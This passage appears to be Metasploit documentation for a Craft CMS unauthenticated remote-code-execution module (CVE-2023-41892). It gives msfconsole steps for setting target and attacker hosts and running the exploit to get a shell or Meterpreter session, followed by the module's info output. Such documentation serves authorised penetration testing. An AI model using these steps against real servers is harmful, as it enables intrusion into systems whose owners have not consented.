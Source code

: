 You are now ready to test the module.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/craftcms_unauth_rce_cve_2023_41892`
- [x] `set rhosts <ip-target>`
- [x] `set rport 443`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=php, 1=Unix Command, 2=Linux Dropper>`
- [x] `exploit`

you should get a `shell` or `Meterpreter`


```shell
msf6 exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > info

       Name: Craft CMS unauthenticated Remote Code Execution (RCE)
     Module: exploit/linux/http/craftcms_unauth_rce_cve_2023_41892
   Platform: Unix, Linux, PHP
       Arch: cmd, php, x64, x86
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-09-13

Provided by:
  chybeta
  h00die-gr3y <h00die.gr3y@gmail.com>

Module side effects:
 artifacts-on-disk
 ioc-in-logs

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                        ml
  RPORT      443              yes       The target port (TCP)
  SSL        true             no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       Craft CMS base url
  URIPATH                     no        The URI to use for this exploit (default is random)
```